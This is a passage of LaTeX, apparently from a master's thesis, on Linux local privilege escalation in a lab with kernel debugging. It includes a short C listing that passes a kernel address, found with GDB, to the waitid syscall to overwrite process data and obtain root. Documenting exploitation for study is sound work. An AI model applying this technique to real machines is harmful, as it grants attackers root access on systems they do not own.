\documentclass{masterthesis}
\newcommand{\refToSubSection}[1]{Subsection~\ref{subsect:#1}\xspace}
\begin{document}
This program allows you to print the address of the \textit{signinfo\_t} structure relating to the name of the process contained in the \textit{name\_task} variable both on the GDB terminal and within a file.


\subsection{LPE with C file}
\label{subsect:lpe_c}

Having total control of what happens inside the system, it is possible to create a program in C that takes as input the address returned within GDB with the program seen in \refToSubSection{py_gdb} and modify the structure \textit{signinfo\_t} of the process gaining root privileges.
We will consider as a process the user bash (test) we are in.

\begin{lstlisting}
int main(){
  int p;
  int err;
  if (fork()==0){
        p = getpid();
        unsigned long long addr = 0xffff880176e81600;
        err = syscall(__NR_waitid, P_PID, p, addr, WEXITED, NULL);
        //err = waitid(P_PID,p,addr,WEXITED);
  }
  return 0;
}
\end{lstlisting}

This program creates a fork ~\cite{fork} and inserts the \emph{PID} of the newly created process into the waitid and waits for it to terminate.
With these few command lines, it is possible to obtain root privileges for the logged-in user.

\begin{figure}[h!]
\caption{Example of local privilege escalation with GDB, DEBUG of Kernel and C file}
   \label{lpe_c}
\end{figure} 
\end{document}
